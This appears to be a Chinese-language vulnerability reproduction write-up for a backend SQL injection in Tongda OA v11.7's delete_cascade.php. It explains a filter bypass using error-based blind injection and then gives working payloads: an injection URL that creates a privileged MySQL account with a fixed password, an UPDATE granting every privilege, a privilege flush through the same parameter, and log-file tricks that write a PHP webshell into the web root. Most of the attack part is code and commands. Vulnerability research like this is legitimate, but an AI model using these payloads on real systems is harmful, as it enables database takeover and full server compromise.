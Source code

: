 # 通达OA v11.7 delete_cascade.php 后台SQL注入

## 漏洞描述

通达OA v11.7后台存在SQL注入，可通过此漏洞写入恶意后门文件攻击目标服务器

## 漏洞影响

<a-checkbox checked>通达OA v11.7</a-checkbox></br>

## 环境搭建

<a-checkbox checked>环境地址: https://cdndown.tongda2000.com/oa/2019/TDOA11.7.exe</a-checkbox></br>

## 漏洞复现

在 `general/hr/manage/query/delete_cascade.php` 文件中

![img](../../../.vuepress/public/img/tongdaoa-3.png)

首先判断`$condition_cascade`是否为空，如果不为空，则将其中的`\'`替换为`'`。为什么要这样替换呢，主要是因为V11.7版本中，注册变量时考虑了安全问题，将用户输入的字符用`addslashes`函数进行保护，如下：

`inc/common.inc.php` 代码

![img](../../../.vuepress/public/img/tongdaoa-4.png)



使用盲注对SQL注入进行测试



![img](../../../.vuepress/public/img/tongdaoa-5.png)



触发了通达OA的SQL注入拦截

`inc/conn.php`文件中找到过滤机制如下:

![img](../../../.vuepress/public/img/tongdaoa-6.png)



其过滤了一些字符，但是并非无法绕过，盲注的核心是：`substr、if`等函数，均未被过滤，那么只要构造MySQL报错即可配合`if`函数进行盲注了，翻看局外人师傅在补天白帽大会上的分享，发现`power(9999,99)`也可以使数据库报错，所以构造语句：



```sql
select if((substr(user(),1,1)='r'),1,power(9999,99)) # 当字符相等时，不报错，错误时报错
```



![img](../../../.vuepress/public/img/tongdaoa-7.png)



![img](../../../.vuepress/public/img/tongdaoa-8.png)



添加SQL数据库用户



```sql
grant all privileges ON mysql.* TO 'peiqi'@'%' IDENTIFIED BY 'peiqiABC@123' WITH GRANT OPTION
```



访问 `http://xxx.xxx.xxx.xxx/general/hr/manage/query/delete_cascade.php?condition_cascade=grant all privileges ON mysql. *TO 'peiqi'@'%' IDENTIFIED BY 'peiqiABC@123' WITH GRANT OPTION*



进入 `Myoa/mysql5/bin` 目录 执行 `mysql -upeiqi -p` 输入密码查询所有用户



![img](../../../.vuepress/public/img/tongdaoa-9.png)



发现成功执行添加一个账户

然后该用户是对mysql数据库拥有所有权限的,然后给自己加权限：



```sql
UPDATE `mysql`.`user` SET `Password` = '*FBCFBB73CF21D4F464A95E775B40AF27A679CD2D', `Select_priv` = 'Y', `Insert_priv` = 'Y', `Update_priv` = 'Y', `Delete_priv` = 'Y', `Create_priv` = 'Y', `Drop_priv` = 'Y', `Reload_priv` = 'Y', `Shutdown_priv` = 'Y', `Process_priv` = 'Y', `File_priv` = 'Y', `Grant_priv` = 'Y', `References_priv` = 'Y', `Index_priv` = 'Y', `Alter_priv` = 'Y', `Show_db_priv` = 'Y', `Super_priv` = 'Y', `Create_tmp_table_priv` = 'Y', `Lock_tables_priv` = 'Y', `Execute_priv` = 'Y', `Repl_slave_priv` = 'Y', `Repl_client_priv` = 'Y', `Create_view_priv` = 'Y', `Show_view_priv` = 'Y', `Create_routine_priv` = 'Y', `Alter_routine_priv` = 'Y', `Create_user_priv` = 'Y', `Event_priv` = 'Y', `Trigger_priv` = 'Y', `Create_tablespace_priv` = 'Y', `ssl_type` = '', `ssl_cipher` = '', `x509_issuer` = '', `x509_subject` = '', `max_questions` = 0, `max_updates` = 0, `max_connections` = 0, `max_user_connections` = 0, `plugin` = 'mysql_native_password', `authentication_string` = '', `password_expired` = 'Y' WHERE `Host` = Cast('%' AS Binary(1)) AND `User` = Cast('peiqi' AS Binary(5));
```



![img](../../../.vuepress/public/img/tongdaoa-10.png)



然后用注入点刷新权限，因为该用户是没有刷新权限的权限的：`general/hr/manage/query/delete_cascade.php?condition_cascade=flush privileges;`这样就拥有了所有权限



![img](../../../.vuepress/public/img/tongdaoa-11.png)

登录如果失败，执行

```sql
grant all privileges ON mysql.* TO 'peiqi'@'%' IDENTIFIED BY 'peiqiABC@123' WITH GRANT OPTION
```

利用漏洞写shell



```sql
# 查路径：
select @@basedir; # F:\OA\mysql5\，那么web目录就是 F:/OA/webroot/
# 方法1：
set global slow_query_log=on;
set global slow_query_log_file='F:/OA/webroot/';
select '<?php phpinfo();?>' or sleep(11);
# 方法2：
set global general_log = on;
set global general_log_file = 'F:/OA/webroot/';
select '<?php phpinfo();?>';
show variables like '%general%';
```



上传大马

![img](../../../.vuepress/public/img/tongdaoa-12.png)